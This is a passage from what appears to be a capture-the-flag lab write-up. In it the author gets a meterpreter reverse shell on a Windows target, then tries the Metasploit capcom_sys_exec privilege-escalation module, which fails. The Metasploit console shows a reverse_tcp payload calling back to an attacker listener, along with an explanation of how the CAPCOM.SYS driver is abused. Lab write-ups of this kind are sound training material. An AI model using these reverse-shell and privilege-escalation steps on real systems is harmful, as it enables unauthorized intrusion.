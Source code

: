 First I tried to see if I could get a meterpreter shell by uploading a reverse shell I created using msfvenom.  I uploaded my malicious `print.exe`, ran it, and was given a meterpreter shell.  I backgrounded my shell to try to use the exploit `windows/local/capcom_sys_exec` which was related to the exploit in the article. 

```text
msf5 exploit(windows/local/capcom_sys_exec) > options

Module options (exploit/windows/local/capcom_sys_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  4                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     43242            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64 (<= 10)

msf5 exploit(windows/local/capcom_sys_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/capcom_sys_exec) > exploit

[*] Started reverse TCP handler on 10.10.15.74:43242 
[-] Exploit aborted due to failure: not-vulnerable: Exploit not available on this system.
[*] Exploit completed, but no session was created.
```

Unfortunately no matter how I configured the options, metasploit did not seem to think this machine was vulnerable. Some reading lead me to [https://github.com/rapid7/metasploit-framework/pull/7363](https://github.com/rapid7/metasploit-framework/pull/7363) which explained why this didn't work:

> This module achieves local privilege escalation on a Windows target by exploiting a "feature" provided by the CAPCOM.SYS driver for Windows x64. The "feature" is the driver allows for user-land functions to be executed in the context of the kernel. Currently this module has only been tested with Windows 7, but should work on earlier Windows versions or any other version that doesn't have SMAP support.

 I decided to run the exploits in a more manual way, following the article I found earlier.

```text
meterpreter > sysinfo
Computer        : FUSE
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : FABRICORP
Logged On Users : 5
Meterpreter     : x64/windows
```
